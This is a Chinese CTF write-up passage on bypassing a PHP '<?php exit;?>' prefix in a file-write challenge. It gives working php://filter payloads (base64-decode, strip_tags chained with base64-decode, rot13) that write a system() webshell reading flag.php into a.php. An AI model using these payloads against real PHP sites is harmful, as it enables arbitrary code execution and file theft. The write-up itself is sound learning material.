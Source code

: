 ps：注意base64是以4byte一组解码，`<?php exit;?>`除了`<` `>` `?` `;` `空格`这些，一共`7`个字符，那么给它随便加一个a就行

payload：

```
goods=aPD9waHAgc3lzdGVtKCJjYXQgLi9mbGFnLnBocCIpOw==&train=php://filter/write=convert.base64-decode/resource=a.php
```

> 如上生成的代码就会是：
>
> ```
> <?php exit;?>aPD9waHAgc3lzdGVtKCJjYXQgLi9mbGFnLnBocCIpOw==
> 
> 然后base64解码后写入a.php里
> （我写的是<?php system("cat ./flag.php");）
> ```
>
> 



### 解法2：strip_tags()字符串操作函数

> ```
> strip_tags	(PHP 4, PHP 5, PHP 7, PHP 8)
> 
> strip_tags — 从字符串中去除 HTML 和 PHP 标记
> ```
>
> `<?php exit; ?>`实际上是一个XML标签，既然是XML标签，我们就可以利用strip_tags函数去除它，而php://filter刚好是支持这个方法的。

跟着P神的文章测试一下：

```php
<?php 
echo readfile('php://filter/read=string.strip_tags/resource=php://input');
```

可以看到传入的`<?php exit; ?>`已经被去除了
但我们要写入的一句话也是php代码，如果使用了strip_tags，一句话同样会被去除掉![](https://i.loli.net/2021/11/03/AuDo9EZseJvdVPX.png)

不过`php://filter`允许使用多个过滤器，只需要使用`|`间隔开来就好
先用`strip_tags`去除`<?php exit; ?>`，再用base64-decode解码咱们传入的base64编码后的一句话

payload：

```php
goods=PD9waHAgc3lzdGVtKCJjYXQgLi9mbGFnLnBocCIpOw==&train=php://filter/write=string.strip_tags|convert.base64-decode/resource=a.php
```

### 解法3：string.rot13

> `<?php exit; ?>`在经过rot13编码后会变成`<?cuc rkvg; ?>`，
> 在PHP不开启short_open_tag时，php不认识这个字符串，当然也就不会执行了：

用的是过滤器`string.rot13`，
需要php不开启短标签（short_open_tag）即`php.ini中short_open_tag = Off`
